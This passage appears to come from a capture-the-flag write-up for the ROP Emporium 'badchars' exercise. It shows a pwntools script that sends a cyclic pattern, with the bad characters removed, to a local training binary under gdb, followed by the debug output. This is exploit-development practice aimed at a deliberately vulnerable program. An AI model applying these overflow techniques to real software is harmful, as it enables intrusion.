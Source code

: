 ## Removing Bad Characters from the Cyclic Pattern

At this point, we should change the alphabet in our cyclic pattern to exclude the bad characters:

```python
import string
from pwn import *

def make_alphabet(badchars):
    alphabet = string.ascii_lowercase
    for c in badchars:
        alphabet = alphabet.replace(c, '')
    info(f'Using alphabet: {alphabet}')
    return alphabet

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './badchars'
io = process(PROCESS)

# Debugging
gdbscript = ""
pid = gdb.attach(io, gdbscript=gdbscript)

io.clean()
io.sendline(cyclic(128, alphabet=make_alphabet("xga.")))
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './badchars' argv=[b'./badchars'] : pid 3513
[*] running in new terminal: /usr/bin/gdb -q  "./badchars" 3513
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./badchars" 3513']
[+] Waiting for debugger: Done
[DEBUG] Received 0x44 bytes:
    b'badchars by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b"badchars are: 'x', 'g', 'a', '.'\n"
    b'> '
[*] Using alphabet: bcdefhijklmnopqrstuvwyz
[DEBUG] Sent 0x81 bytes:
    b'bbbbcbbbdbbbebbbfbbbhbbbibbbjbbbkbbblbbbmbbbnbbbobbbpbbbqbbbrbbbsbbbtbbbubbbvbbbwbbbybbbzbbccbbcdbbcebbcfbbchbbcibbcjbbckbbclbbc\n'
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```
